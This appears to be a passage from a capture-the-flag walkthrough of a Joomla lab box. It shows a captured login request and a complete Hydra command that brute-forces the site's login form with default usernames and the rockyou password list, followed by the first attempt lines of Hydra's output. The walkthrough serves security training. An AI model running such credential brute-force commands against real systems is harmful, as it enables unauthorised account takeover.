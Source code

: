 
Let's see whats being served on port 80:

![Daily Bugle Home page](https://i.imgur.com/C4X3R75.png)

The information on this page gives us the answer to the first question.



[Task 2] Obtain user and root 
-----------------------------

> Question #1 What is the Joomla Version?

There is no visible information on the page that reveals the version. We can look into the source code, but before we do that. Let's capture with Burp a login request and put Hydra to work on trying to brute force access for us:

This is the request as captured in Burp:

```sh
POST /index.php/component/users/?task=user.login&Itemid=101 HTTP/1.1
Host: 10.10.179.65
Content-Length: 169
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.179.65
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.179.65/index.php/component/users/?view=login&Itemid=101
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: eaa83fe8b963ab08ce9ab7d4a798de05=egb2jrelr81kl1mi493gfkf544; 2b01af51830ca9615359108de04d9ca1=ulpsk0o9dmfa0ms8ebohvbs0n5
Connection: close

username=spiderman&password=test&return=aHR0cDovLzEwLjEwLjE3OS42NS9pbmRleC5waHAvY29tcG9uZW50L3VzZXJzLz92aWV3PWxvZ2luJkl0ZW1pZD0xMDE%3D&0ba84fa157b8f604f997575d184e2636=1
```


With this info let's put together an hydra attack:

```sh
┌──(kali㉿kali)-[~/Documents/THM/dailyBugle]
└─$ hydra -L /usr/share/seclists/Usernames/cirt-default-usernames.txt -P /usr/share/wordlists/rockyou.txt 10.10.179.65 http-post-form "/index.php/component/users/?task=user.login&Itemid=101:username=^USER^&password=^PASS^&Submit=&option=com_users&task=user.login&return=aHR0cDovLzEwLjEwLjE3OS42NS9pbmRleC5waHAvMi11bmNhdGVnb3Jpc2VkLzEtc3BpZGVyLW1hbi1yb2JzLWJhbms%3D&9b46f637d905f7985fcefd95b0e502de=1:F=Username and password do not match or you do not have an account yet." -V 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-27 12:59:33
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11862817973 login tries (l:827/p:14344399), ~741426124 tries per task
[DATA] attacking http-post-form://10.10.207.42:80/index.php:username=^USER^&password=^PASS^&Submit=&option=com_users&task=user.login&return=aHR0cDovLzEwLjEwLjE3OS42NS9pbmRleC5waHAvMi11bmNhdGVnb3Jpc2VkLzEtc3BpZGVyLW1hbi1yb2JzLWJhbms%3D&9b46f637d905f7985fcefd95b0e502de=1:F=Username and password do not match or you do not have an account yet.
[ATTEMPT] target 10.10.207.42 - login "!root" - pass "123456" - 1 of 11862817973 [child 0] (0/0)
[ATTEMPT] target 10.10.207.42 - login "!root" - pass "12345" - 2 of 11862817973 [child 1] (0/0)
[ATTEMPT] target 10.10.207.42 - login "!root" - pass "123456789" - 3 of 11862817973 [child 2] (0/0)

```
